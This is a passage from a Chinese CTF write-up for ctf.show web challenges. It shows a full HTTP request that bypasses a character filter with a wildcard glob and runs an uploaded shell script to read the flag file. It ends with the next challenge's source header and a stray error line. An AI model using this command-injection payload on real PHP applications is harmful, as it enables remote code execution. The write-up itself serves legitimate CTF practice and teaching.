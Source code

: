 新增了：[0-9]|%|$|(|\{|\'|\"|

不能用之前的方法二、方法三了不过过滤拦截不了方法一

payload

``````
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: d0bcb0a5-63d9-414f-b27b-7e66b9078bbc.challenge.ctf.show
Content-Length: 301
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd3yDdMgKxVlM6vGA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="file"; filename="1.sh"
Content-Type: text/x-sh

#!/bin/sh

tac flag.php
------WebKitFormBoundaryd3yDdMgKxVlM6vGA
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryd3yDdMgKxVlM6vGA--

``````

flag：`ctfshow{10116380-856d-4369-96a4-6ebacda2b00d}`

## Web57

题目：

``````php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
``````

[ERROR]: could not find driver